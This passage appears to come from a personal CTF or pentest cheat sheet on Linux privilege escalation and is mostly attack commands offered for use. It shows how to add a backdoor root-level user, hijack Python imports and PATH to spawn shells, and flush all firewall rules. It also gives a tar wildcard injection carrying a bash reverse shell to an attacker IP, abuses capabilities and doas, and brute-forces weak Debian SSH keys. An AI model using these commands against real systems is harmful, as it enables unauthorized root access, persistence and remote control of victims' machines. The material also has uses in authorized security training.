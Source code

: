     - Generate hash : `openssl passwd {PASSWORD}`
- Add User
    - `useradd -p $(openssl passwd -1 meow) root1`
- Add to sudo group
    - `usermod -aG sudo root1`
### Program Hijack
#### Python
- import library priority
	1. local file
	2. `python -c "import sys;print(sys.path)"`
- Check file permission if it can be write 
- Fake library file
	```python
	import pty
	pty.spawn("/bin/bash")
	```
#### Bash
- Relative path is from `$PATH`
	- We can modify this by
		- `PATH=/my/fake/path:$PATH ./binary`
	- Fake path can contain the shell/reverse shell command file
### IP Tables
- Clear all rull
```bash
iptables -P INPUT ACCEPT
iptables -P FORWARD ACCEPT
iptables -P OUTPUT ACCEPT
iptables -F
iptables -X
```
- Check open port
    - `netstat -tulpn | grep LISTEN`
### Program
- `tar` Wildcard
	- `echo "bash -c 'bash -i >& /dev/tcp/my_ip/7877 0>&1'" > shell.sh`
	- `chmod 777 shell.sh`
	- `echo "" > "--checkpoint-action=exec=sh shell.sh"`
	- `echo "" > --checkpoint=1`
	- `tar cf archive.tar *`
### Capability
- If the program has some special capability
	- https://man7.org/linux/man-pages/man7/capabilities.7.html
	- `CAP_SETUID`
- Can do with [GTFOBins](https://gtfobins.github.io/)
###  Doas
- `doas.conf`
	- if exist `permit nopass {user} as {root} cmd {binary}`
	- We can `doas {binary}` and it will run as root
### SSH `authorized_keys` Brute force
- `/var/backups/ssh/authorized_keys` or `~/.ssh/authorized_keys`
- https://gitbook.brainyou.stream/basic-linux/ssh-key-predictable-prng-authorized_keys-process
    - `git clone https://github.com/g0tmi1k/debian-ssh`
    - `tar vjxf debian-ssh/common_keys/debian_ssh_dsa_1024_x86.tar.bz2`
    - `cd debian-ssh/common_keys/dsa/1024/`
    - `grep -lr '{keys}'`
    - Find the file name without `.pub` is secret key
### Docker
- `/.dockerenv`